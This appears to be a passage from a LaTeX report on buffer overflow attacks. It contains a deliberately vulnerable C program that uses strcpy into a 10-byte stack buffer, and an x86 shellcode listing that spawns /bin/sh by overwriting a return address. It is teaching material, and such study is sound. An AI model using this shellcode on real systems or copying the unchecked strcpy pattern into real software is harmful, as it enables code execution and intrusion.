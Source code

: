 \subsubsection{Using \texttt{strcpy}}

\begin{figure}
\begin{lstlisting}
#include <string.h>
#include <stdio.h> 

void foo(const char* input)
{
    char buf[10];

    printf("My stack looks like:\n%p\n%p\n%p\n%p\n%p\n% p\n\n");

    strcpy(buf, input);
    printf("%s\n", buf);

    printf("Now the stack looks like:\n%p\n%p\n%p\n%p\n%p\n%p\n\n");
}

void bar(void)
{
    printf("Augh! I've been hacked!\n");
}

int main(int argc, char* argv[])
{
    //Blatant cheating to make life easier on myself
    printf("Address of foo = %p\n", foo);
    printf("Address of bar = %p\n", bar);
    if (argc != 2) 
    {
        printf("Please supply a string as an argument!\n");
        return -1;
    } 
    foo(argv[1]);
    return 0;
}
\end{lstlisting}
\caption{An example of using buffer overflow to overwrite stack memory.}
\label{fig:strcpy}
\end{figure}

The most famous example of this is the use of \texttt{strcpy} in the C Standard Library. The implementation of \texttt{strcpy} is to copy each character until it finds a \texttt{0} in the source string, which is used to denote the end of the string. This function easily allows users to overwrite the stack memory, as referenced in figure \ref{fig:strcpy}. \cite{buffer_overflow_attack_2004}

\subsubsection{Launching a Shell}

\begin{figure}
\begin{lstlisting}
char shellcode[] =
    "\xeb\x2a\x5e\x89\x76\x08\xc6\x46\x07\x00\xc7\x46\x0c\x00\x00\x00"
    "\x00\xb8\x0b\x00\x00\x00\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80"
    "\xb8\x01\x00\x00\x00\xbb\x00\x00\x00\x00\xcd\x80\xe8\xd1\xff\xff"
    "\xff\x2f\x62\x69\x6e\x2f\x73\x68\x00\x89\xec\x5d\xc3";


void main() {
    int *ret;

    ret = (int *)&ret + 2;
    (*ret) = (int)shellcode;
}
\end{lstlisting}
\caption{The contents of \texttt{shellcode} are executed when the return address of the main method is manipulated.}
\label{fig:shellcode}
\end{figure}

